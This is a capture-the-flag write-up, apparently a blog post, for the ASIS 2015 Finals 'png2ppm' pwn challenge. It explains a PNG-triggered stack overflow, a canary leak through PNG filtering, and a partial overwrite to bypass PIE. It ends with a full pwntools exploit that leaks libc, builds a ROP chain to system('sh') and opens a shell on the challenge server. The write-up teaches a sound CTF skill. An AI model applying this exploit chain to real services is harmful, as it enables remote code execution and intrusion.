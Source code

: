 ```yaml
---
layout: post
title: "ASIS 2015 Finals: (pwn450) png2ppm"
modified: 2015-10-14
tags: asis, asis2015finals, pwn
---
```


This challenge was an image conversion service which expected a PNG file and converted into a PPM file. PPM is a simple text-based image format, here is the wikipedia page describing it: https://en.wikipedia.org/wiki/Netpbm_format

The main vulnerability was a stack buffer overflow, because it allocated a buffer with the size of width * height * bitsPerPixel and copied the PNG's decompressed zlib data (except the filter field) to the buffer which does not respected the allocated buffer's size.

The main problem was that we also overwrote the stack canary and it was a 64-bit ASLR-enabled PIE binary (as the challenge website stated so) which did not fork, so new canary generated for every new connection:

![alt]({{ site.url }}/images/asis2015finals/png2ppm1.png)

Luckily there was an other vulnerability: the PNG file format uses a method called Filtering which can help to reduce the size of the file by only storing the differences with the pixel to the left or the pixel above etc. You can read about it here: https://en.wikipedia.org/wiki/Portable_Network_Graphics#Filtering

So if we tried to read the previous row in first row, then it read before our buffer. This way we could read the stack cookie from the previous function call. Although I am not 100% sure, but I think the binary was compiled with -fstack-protector-all, because there was stack cookie in every function. In this case maybe this paranoid setting caused more harm than good... :)

I had to experiment a bit with the width / height / with or without alpha channel options. As I had to switch between the "copy the above line" (2) filter (for the stack cookie) and "copy the exact values" (0) filter (for the return address). Finally I created a 6*1 PNG with alpha channel.

This way we could overwrite the stack cookie and we had RIP control. BUT as the binary was a PIE binary we had not fix addresses where we could jump. Or do we?

Basically the return address points to a valid memory address, to the next instruction after the sub_1560 call. So if we partially overwrite the return address, we can jump somewhere in the png2ppm binary.

Practically I jumped to the program's start again as at this point I already had a lot of leaked addresses as the result of the conversion contained the stack cookie, an address from the stack, and an address from the png2ppm binary (although I had to mix the address bytes from the pixelmap and the alpha map, because the conversion divided the values into two different files).

Only one thing separated me from getting a shell: a libc address :)

Because I know the program's base address at this point, I could jump to the puts PLT and print out the GOT table. So I got the puts function's libc address and calculated the system's address from it.

So in the next ROP chain I could call the system with "sh". For this I had to calculate the "sh" string's address from the stack (I could calculate this, because I already had a stack address leak).

Because of the partial overwrite, I also overwrote 4 bits from the ASLR random part, so for the real server I had to run the exploit multiple times to hit the correct address with a 1/16 change (locally I debugged it with disabled ASLR).

Finally I could print the flag out:
{% highlight text %}
ASIS{487e532d3aae05f1717f46104ba4ebf6}
{% endhighlight %}

### Exploit code

{% highlight python %}
import sys
import binascii
import struct
import zlib
from pwn import *
from time import sleep

for iTry in xrange(64):
    print "Try #%d / 64" % (iTry + 1)
    try:
        p = remote('185.106.120.22', 1337)

        time.sleep(0.5)

        def getChunk(data):
            return struct.pack('>I', len(data) - 4) + data + struct.pack('>i', binascii.crc32(data))

        def convertPng(width, height, plain):
            pngHdr = "\x89PNG\x0d\x0a\x1a\x0a";
            iHdr = getChunk("IHDR" + struct.pack('>II', width, height) + "\x08\x06\x00\x00\x00")
            iDat = getChunk("IDAT" + zlib.compress(plain))
            iEnd = getChunk("IEND")
            pngData = pngHdr + iHdr + iDat + iEnd
            p.send(str(len(pngData)) + '\n' + pngData)

        #system = "\x2e\x5d"
        mainPart = "\x79\x5a"

        convertPng(6, 1, ("\x02" + "\x00" * 24) * 6 + "\x00"*9 + mainPart)

        p.recvuntil('\n255\n')
        leakLine1 = p.recvline().strip()
        p.recvuntil('\n255\n')
        leakLine2 = p.recvline().strip()
        print "Leak lines = %r, %r" % (leakLine1, leakLine2)

        leakStr1 = ''.join([chr(int(x)) for x in leakLine1.split(' ')])
        leakStr2 = ''.join([chr(int(x)) for x in leakLine2.split(' ')])
        cookieLeak = u64(leakStr1[0:3]+leakStr2[0]+leakStr1[3:6]+leakStr2[1])
        stackBase = u64(leakStr1[6:9]+leakStr2[2]+leakStr1[9:12]+leakStr2[3]) - 0x1fc60 - 0x480
        prgBase = u64(leakStr1[12:15]+leakStr2[4]+leakStr1[15:18]+leakStr2[5]) - 0x184e
        print "Leaks: cookie = 0x%016x, stack = 0x%016x, prg = 0x%016x" % (cookieLeak, stackBase, prgBase)

        puts = prgBase + 0xa20
        putsGot = prgBase + 0x202f48
        popRdi = prgBase + 0x1b53
        main = prgBase + (((ord(mainPart[1]) - 0x40) << 8) + ord(mainPart[0]))
        rbx = "BBBBBBBB"
        rbp = "CCCCCCCC"
        ret = "DDDDDDDD"

        convertPng(64, 1, "\x00"*(1+64*4)+"\x00" + "X"*80 + p64(cookieLeak) + "XXXXXXXX"+rbx+rbp+p64(popRdi)+p64(putsGot)+p64(puts)+p64(main))
        p.recvuntil('\n255\n')
        p.recvuntil('\n255\n')
        p.recvline()
        putsLeak = u64(p.recvline()[:-1]+'\x00'*2)
        print "puts leak = 0x%016x" % putsLeak

        putsLocal = 0x7ffff786be30
        systemLocal = 0x7ffff7842640
        remoteSystem = putsLeak - putsLocal + systemLocal

        stackBaseLocal = 0x7ffffffde000
        binShLocal = 0x7fffffffe0e8
        binShRemote = stackBase - stackBaseLocal + binShLocal

        convertPng(64, 1, "\x00"*(1+64*4)+"\x00" + "X"*80 + p64(cookieLeak) + "XXXXXXXX"+rbx+rbp+p64(popRdi)+p64(binShRemote)+p64(remoteSystem)+"sh\x00")

        p.send('cat flag\n')
        p.interactive()
        break
    except:
        try:
            p.close()
        except:
            pass
        print "Fail!"
{% endhighlight %}